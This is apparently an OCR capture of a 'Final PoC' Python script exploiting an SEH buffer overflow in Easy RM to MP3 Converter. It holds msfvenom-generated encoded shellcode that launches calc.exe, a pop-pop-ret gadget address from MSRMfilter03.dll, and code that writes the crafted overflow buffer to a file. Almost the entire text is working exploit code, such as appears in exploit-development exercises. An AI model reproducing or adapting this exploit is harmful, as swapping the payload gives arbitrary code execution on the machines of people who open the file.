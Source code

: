 Final PoC: 

```term_session
import struct

# msfvenom -p windows/exec CMD=calc.exe -f py -e x86/alpha_mixed EXITFUNC=thread 
# Payload size: 448 bytes

buf =  b""
buf += b"\x89\xe1\xdb\xc4\xd9\x71\xf4\x5e\x56\x59\x49\x49\x49"
buf += b"\x49\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43"
buf += b"\x37\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41"
buf += b"\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42"
buf += b"\x58\x50\x38\x41\x42\x75\x4a\x49\x59\x6c\x68\x68\x6b"
buf += b"\x32\x35\x50\x43\x30\x35\x50\x73\x50\x4b\x39\x78\x65"
buf += b"\x76\x51\x79\x50\x32\x44\x4e\x6b\x52\x70\x36\x50\x6e"
buf += b"\x6b\x71\x42\x44\x4c\x4e\x6b\x31\x42\x44\x54\x4e\x6b"
buf += b"\x73\x42\x35\x78\x54\x4f\x6e\x57\x52\x6a\x74\x66\x46"
buf += b"\x51\x4b\x4f\x4c\x6c\x67\x4c\x50\x61\x73\x4c\x75\x52"
buf += b"\x64\x6c\x55\x70\x69\x51\x7a\x6f\x66\x6d\x76\x61\x7a"
buf += b"\x67\x59\x72\x5a\x52\x42\x72\x53\x67\x4e\x6b\x63\x62"
buf += b"\x42\x30\x6e\x6b\x73\x7a\x45\x6c\x6c\x4b\x42\x6c\x46"
buf += b"\x71\x33\x48\x4d\x33\x51\x58\x63\x31\x5a\x71\x42\x71"
buf += b"\x6e\x6b\x42\x79\x67\x50\x33\x31\x68\x53\x4c\x4b\x53"
buf += b"\x79\x65\x48\x49\x73\x37\x4a\x32\x69\x4e\x6b\x46\x54"
buf += b"\x4c\x4b\x47\x71\x7a\x76\x34\x71\x59\x6f\x4c\x6c\x4b"
buf += b"\x71\x5a\x6f\x54\x4d\x43\x31\x6b\x77\x36\x58\x59\x70"
buf += b"\x70\x75\x68\x76\x66\x63\x71\x6d\x6b\x48\x37\x4b\x51"
buf += b"\x6d\x74\x64\x71\x65\x4b\x54\x31\x48\x6c\x4b\x61\x48"
buf += b"\x45\x74\x73\x31\x6a\x73\x31\x76\x4e\x6b\x66\x6c\x52"
buf += b"\x6b\x4c\x4b\x53\x68\x45\x4c\x63\x31\x7a\x73\x4c\x4b"
buf += b"\x74\x44\x6c\x4b\x65\x51\x78\x50\x4e\x69\x71\x54\x34"
buf += b"\x64\x51\x34\x63\x6b\x33\x6b\x31\x71\x42\x79\x50\x5a"
buf += b"\x36\x31\x4b\x4f\x49\x70\x51\x4f\x31\x4f\x53\x6a\x6c"
buf += b"\x4b\x56\x72\x38\x6b\x6c\x4d\x71\x4d\x61\x7a\x33\x31"
buf += b"\x4c\x4d\x6b\x35\x6e\x52\x57\x70\x77\x70\x75\x50\x66"
buf += b"\x30\x73\x58\x45\x61\x6c\x4b\x62\x4f\x6b\x37\x4b\x4f"
buf += b"\x48\x55\x4f\x4b\x49\x70\x55\x4d\x55\x7a\x47\x7a\x32"
buf += b"\x48\x6e\x46\x6e\x75\x6d\x6d\x6d\x4d\x49\x6f\x38\x55"
buf += b"\x67\x4c\x57\x76\x53\x4c\x66\x6a\x4d\x50\x6b\x4b\x69"
buf += b"\x70\x30\x75\x55\x55\x6f\x4b\x70\x47\x67\x63\x44\x32"
buf += b"\x70\x6f\x30\x6a\x37\x70\x71\x43\x79\x6f\x4e\x35\x42"
buf += b"\x43\x43\x51\x70\x6c\x33\x53\x46\x4e\x43\x55\x61\x68"
buf += b"\x75\x35\x75\x50\x41\x41" 

nseh = struct.pack("<I", 0x06710870)
seh = struct.pack("<I", 0x10025A2E) # 0x10025a2e : pop ecx # pop esi # ret  | ascii {PAGE_EXECUTE_READ} [MSRMfilter03.dll] ASLR: False, 
Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Easy RM to MP3 Converter\MSRMfilter03.dll)

buffer = "A" * 9008 + nseh + seh + "\x41\x49" * 10 + buf + "\xff" * 200

f = open ("finding3.txt", "w")
f.write(buffer)
f.close()
```
